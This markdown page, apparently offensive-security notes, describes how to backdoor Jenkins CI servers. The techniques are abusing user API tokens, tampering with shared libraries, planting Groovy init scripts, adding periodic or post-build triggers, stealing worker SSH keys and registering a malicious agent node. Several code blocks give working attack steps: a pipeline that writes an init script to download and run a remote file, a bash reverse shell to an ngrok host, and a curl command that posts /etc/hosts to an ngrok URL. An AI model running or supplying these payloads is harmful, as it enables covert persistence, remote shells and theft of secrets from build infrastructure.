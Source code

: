 # Backdooring

- Backdooring helps attacker to gain access over systems over long period of time ( sometimes bypassing the security checks )
- A higher level privileges might be required to do the changes in configuration



## Using User issued Jenkins API Tokens

- It is possible for users to generate their own API tokens.
- Can be used to bypass other authentication process ( Form based Authentication / 2FA authentication )
- Usually undected ( unless the usage count is not tracked )
- As an attacker we need to make sure, we need to give right priviliges to these compromised users in case Matrix Authorization Strategy is enabled.

```
curl http://username:token@127.0.0.1:8080
```
<img src="api-token-access.png">

## Using Shared Libraries

- Jenkins shared library is popular where large number of jenkins jobs or pipelines uses a repeated code in pipeline script. 
- The developers creates certain modular functions containing the repetitive code and then reuses across various projects/pipelines/jobs.
- Personal Research : https://oxhat.blogspot.com/2022/07/attacking-backdooring-and-exfiltrating.html
- There are 2 ways we can backdoor the shared pipelines
  1. Add a backdoor inside a shared library codebase ( Jenkins Admin Access Not Required )
``` Groovy
@Library("shared-libraries") _
pipeline{
    agent any
    stages {
        stage("example"){
            steps{
                sh "echo Just a job2"
                helloWorld(name:"User2",dayOfWeek:"Tuesday")
            }
        }
    }
}
```
  - <img src="shared-library-code.png">
  3. Change the shared library location to an attaker controlled shared library ( Jenkins Admin Access Required )
  - <img src="shared-library-conf.png">

## Using Groovy init scripts

- We can try this technique both from pipeline / after controller's compromise.
- We need to add ```init.groovy``` file with our payload at home directory ( the directory that contains other config files pf Jenkins, sometimes referred as $JENKINS_HOME )
- To trigger this, we would need a restart.
- We have couple of options what we can do with our backdoor scripts
  - Get a reverse shell - We can run this via pipeline
``` Groovy
pipeline{
    agent any
    stages{
        stage('Adding a groovy init file'){
            steps{
                sh '''
                    echo "'wget -O /tmp/revshell.sh  https://gist.githubusercontent.com/dibsy/00d346575659f977b353f95a7064e966/raw/dc89f902db2c81fe96c2f5a102e16c25b8308983/temp-cmd.txt'.execute()" > /var/lib/jenkins/init.groovy
                    echo "sleep(5000)" >> /var/lib/jenkins/init.groovy
                    echo "'sh /tmp/revshell.sh'.execute()" >> /var/lib/jenkins/init.groovy
                    '''
            }
        }
    }
}
```
  
  
  
  
init.groovy
```
"wget -o /tmp/revshell.sh  http://https://gist.githubusercontent.com/dibsy/temp-cmd.txt".execute()
"sh /tmp/revshell.sh".execute()
```
revshell.sh
```
bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/13520 0>&1
```

<img src="backdoor-rev.png">

  - Exfiltrate data - You can exfiltrate system files and automate a process to exfiltrate all jenkins configuration files, secrets,
exfil.groovy

```
"curl -X POST https://6aee-91-166-172-59.ngrok-free.app -d @/etc/hosts".execute()
```

<img src="backdoor-exfil.png">

  - Use other persistent techniques
    - Add a cronjob
    - Add another user

## Triggering backdoor jobs

- Add a build-step

<img src="backdoor-build-step.png">

- Add a post-build Actions to start our backdoor

<img src="backdoor-build-step-post.png">

- Build a job that runs periodically ( cronjob style )

<img src="backdoor-cron.png">

## Using Worker-Node SSH Keys

- We can dump the SSH keys from the Jenkins Controller
- Once we have the SSH keys we can montitor the logon events and exfiltrate the build data or snoop on it for debug logs or credentials.

## Adding Malicious Worker-Node 

- In this process we update / add a new configuration with an attacker controller worker node.
- We can update the Worker-Node configuration to point to that node.
- This is possible either adding a new agent or updating the ssh keys used for configuration.

<img src="configure-agent.png">


